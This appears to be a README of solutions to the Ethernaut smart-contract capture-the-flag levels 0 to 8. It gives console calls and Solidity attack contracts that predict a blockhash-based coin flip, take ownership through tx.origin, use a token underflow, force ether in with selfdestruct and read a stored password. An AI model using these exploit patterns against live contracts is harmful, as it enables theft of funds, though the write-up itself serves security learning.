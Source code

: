 # Levels

## Level 00

https://ethernaut.openzeppelin.com/level/0

```Javascript
await contract.password()
await contract.authenticate("ethernaut0")
```

https://mumbai.polygonscan.com/tx/0xb479fa5cda3731d1ceb34cd1b7788f30022e31d63eaf4ebc63351c22aa3f3806

## Level 01

https://ethernaut.openzeppelin.com/level/1

```javascript
await contract.owner() 
await contract.contributions("0x2a24869323C0B13Dff24E196Ba072dC790D52479")
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})

await sendTransaction({from: player, to: contract.address, value: toWei('0.0000000001')})
await contract.withdraw()
```

## Level 02

https://ethernaut.openzeppelin.com/level/2

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Fallout {
    function Fal1out() external payable;
}
```

https://mumbai.polygonscan.com/tx/0x0473d27f57f28a8d48ecfecef2faf4e89f82cd3a79e6af2675faefd0761e44d4

## Level 03

https://ethernaut.openzeppelin.com/level/3

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface ICoinFlip {
    function consecutiveWins() external view returns (uint256);
    function flip(bool) external returns (bool);
}

contract Hack {
    ICoinFlip private immutable coinflip;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address) {
        coinflip = ICoinFlip(_address);
    }

    function flip() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }    
}
```

call `flip()` until `consecutiveWins` is 10

## Level 04

https://ethernaut.openzeppelin.com/level/4

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address _owner) external;
}

contract HackTelephone {
    constructor(address _address) {
        ITelephone(_address).changeOwner(msg.sender);
    }
}
```

## Level 05

https://ethernaut.openzeppelin.com/level/5

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
    function balanceOf(address _owner) external view returns (uint balance);
}

contract tokenHack {
    IToken private token;

    constructor(address _address) public  {
        token = IToken(_address);
    }

    function transfer(address _to) public {
        uint _value = 115392089237316195423570985008687907853269984665640564039457584007913129639935;
        token.transfer(_to, _value);
    }
}
```

## Level 06

https://ethernaut.openzeppelin.com/level/6

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDelegate {
    function owner() external view returns (address);
    function pwn() external;
}
```

Add more extra gas

## Level 07

https://ethernaut.openzeppelin.com/level/7

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceHack {
    constructor(address payable _address) payable {
        selfdestruct(_address);
    }
}
```

Add amount of ether to send

## Level 08

https://ethernaut.openzeppelin.com/level/8

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IVault {
    function locked() external view returns (bool);
    function unlock(bytes32 _password) external;
}
```

Read the last 64 characters of the input data:
https://mumbai.polygonscan.com/vmtrace?txhash=0xf99f1da3e77c8ef6ab7100f1ed34f0958f5fa8fc6053af2e420d2d9ba3b447a7&type=gethtrace2